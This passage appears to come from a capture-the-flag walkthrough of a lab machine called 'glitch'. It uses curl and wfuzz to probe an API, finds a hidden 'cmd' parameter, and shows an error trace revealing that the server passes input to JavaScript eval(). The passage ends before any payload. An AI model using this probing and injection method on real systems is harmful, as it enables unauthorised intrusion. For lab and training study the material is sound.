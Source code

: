 We get a response, let's switch to curl and investigate further:

```text
┌──(root💀kali)-[~/thm/glitch]
└─# curl http://glitch.thm/api/items    
{"sins":["lust","gluttony","greed","sloth","wrath","envy","pride"],"errors":["error","error","error","error","error","error","error","error","error"],"deaths":["death"]}
```

A normal request like above is doing a GET, what happens if we instead try a POST:

```text
┌──(root💀kali)-[~/thm/glitch]
└─# curl -X POST http://glitch.thm/api/items
{"message":"there_is_a_glitch_in_the_matrix"}
```

We can assume there is a parameter needed based on that response. Time to fuzz and see if we can find one:

```text
┌──(root💀kali)-[~/thm/glitch]
└─# wfuzz -c -z file,/usr/share/wordlists/wfuzz/general/medium.txt --hc 400 -X POST -u http://glitch.thm/api/items\?FUZZ\=test

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://glitch.thm/api/items?FUZZ=test
Total requests: 1659
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000322:   500        10 L     64 W       1081 Ch     "cmd"

Total time: 0
Processed Requests: 1659
Filtered Requests: 1658
Requests/sec.: 0
```

Above we've used wfuzz with one of the built in wordlists. We've told it to only display results were the response wasn't 400 Bad Request. From that we can see it found cmd, so now we can look at that further.

Let's try curl again but now with our known parameter:

```text
┌──(root💀kali)-[~/thm/glitch]
└─# curl -X POST http://glitch.thm/api/items?cmd=test 
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: test is not defined<br> &nbsp; &nbsp;at eval (eval at router.post (/var/web/routes/api.js:25:60), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at router.post (/var/web/routes/api.js:25:60)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /var/web/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/var/web/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)</pre>
</body>
</html>
```